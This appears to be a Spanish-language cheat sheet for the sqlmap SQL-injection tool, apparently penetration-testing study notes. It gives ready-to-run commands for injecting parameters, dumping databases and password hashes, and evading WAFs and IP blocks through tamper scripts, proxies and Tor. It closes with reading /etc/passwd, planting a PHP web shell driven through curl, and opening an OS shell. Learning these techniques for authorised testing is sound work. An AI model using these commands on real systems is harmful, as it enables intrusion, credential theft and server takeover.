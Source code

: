 ### POST

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

si creemos que uid es vulnerable se le agrega `*` para acortar la superficie de ataque :

```
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```


### HTTP request

si necesitamos pasarle una request muy larga podemos meter toda la request en un archivo de texto y pasarsela como parametro con la flag `-r <archivo.txt>`

### Attack tuning

#### Forzar un campo

si por ejemplo el parámetro inyectable es una cookie : 

```
sqlmap -r Case3.txt -p cookie
```

#### prefijos/sufijos

si queremos que todos los payloads tengan un prefigo o sufijo : 

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

#### level/risk

`--level <1-5>` Prueba más parámetros (por ejemplo, cookies, headers, POST extras)

`--risk <1-3>` - Usa técnicas más lentas o ruidosas. Aumenta posibilidad de detectar vulnerabilidades, pero también de afectar el servidor.

#### Status Codes

--code=200

#### Title

para cuando filtras por la etiqueta `<title>`

`--title`

#### Strings

filtrar resultados segun una palabra
`--string=caca`
#### Text only

pa quitar todas las etiquetas html

`--text-only`

#### UNION

`--union-cols`
`--union-char='a'`

### DB enumeration

#### Basic
`--hostname`
`--current-user`
`--current-db`
`--passwords`
`--banner` -> nos pilla la version de la db
`--is-dba` -> para ver si nuestro user tiene privilegios de admin

#### Tables/Columns

`--tables -D <nombre de la db>` --> las tablas de una db

`--dump -T <nombre de la tabla>` -> como es por dentro una tabla(si se usa sin el -T te tira todas las tablas de la db directamente)

`-c <nombre de la columna>` -> para cuando las tablas tienen muchas columnas y solo quieres unas en especifico

`--start=<num> --stop=<num>` -> para que solo muestre los resultados entre ese rango de numeros (ej:id)

`--where=<condicion>` -> E.j : --where="name LIKE 'f%'"

`--search` -> para que te busque una tabla o columna en especifico
(E.j: --search -T user)

#### Schema 

pa ver como son todas las tablas de la db y que datos guardan etc.

`--schema`

### WAF bypassing

`--csrf-token=<token>` -> bypass csrf tokens

`--randomize=<parametro de la request>` -> para cuando una web usa en vez de anti csrf simplemente un parametro que sea distinto en cada request

`--eval=<cosa>` -> no se muy bien para que es saludos(para valores calculados)

#### IP blacklisting bypass

`--proxy=<proxy url>` -> para cuando una web te blacklistea la IP 

`--proxy-file` -> igual que la anterior pero aqui le pasamos un txt con las proxies que queremos que vaya usando

`--tor` -> proxy de tor

#### User-Agent Blacklisting bypass

error 5XX desde el principio suele ser porque la web bloquea el user agent por defecto de sqlmap : `User-agent: sqlmap/1.4.9 (http://sqlmap.org)`

solucion:
`--random-agent`


#### Tamper

`--tamper=cosa`

cosas:

| **Tamper-Script**           | **Description**                                                                                                                  |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| `0eunion`                   | Replaces instances of UNION with e0UNION                                                                                         |
| `base64encode`              | Base64-encodes all characters in a given payload                                                                                 |
| `between`                   | Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`                 |
| `commalesslimit`            | Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart                                                 |
| `equaltolike`               | Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart                                                         |
| `halfversionedmorekeywords` | Adds (MySQL) versioned comment before each keyword                                                                               |
| `modsecurityversioned`      | Embraces complete query with (MySQL) versioned comment                                                                           |
| `modsecurityzeroversioned`  | Embraces complete query with (MySQL) zero-versioned comment                                                                      |
| `percentage`                | Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)                                            |
| `plus2concat`               | Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart                                                          |
| `randomcase`                | Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)                                                   |
| `space2comment`             | Replaces space character ( ) with comments `/                                                                                    |
| `space2dash`                | Replaces space character ( ) with a dash comment (`--`) followed by a random string and a new line (`\n`)                        |
| `space2hash`                | Replaces (MySQL) instances of space character ( ) with a pound character (`#`) followed by a random string and a new line (`\n`) |
| `space2mssqlblank`          | Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters         |
| `space2plus`                | Replaces space character ( ) with plus (`+`)                                                                                     |
| `space2randomblank`         | Replaces space character ( ) with a random blank character from a valid set of alternate characters                              |
| `symboliclogical`           | Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `\|`)                                           |
| `versionedkeywords`         | Encloses each non-function keyword with (MySQL) versioned comment                                                                |
| `versionedmorekeywords`     | Encloses each keyword with (MySQL) versioned comment                                                                             |

### File Read/Write

```shell-session
--file-read "/etc/passwd"
```

```shell-session
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

para luego poder hacer : 

```shell-session
curl http://www.example.com/shell.php?cmd=ls+-la
```


AUTOMATICO:

```shell-session
--os-shell 
```
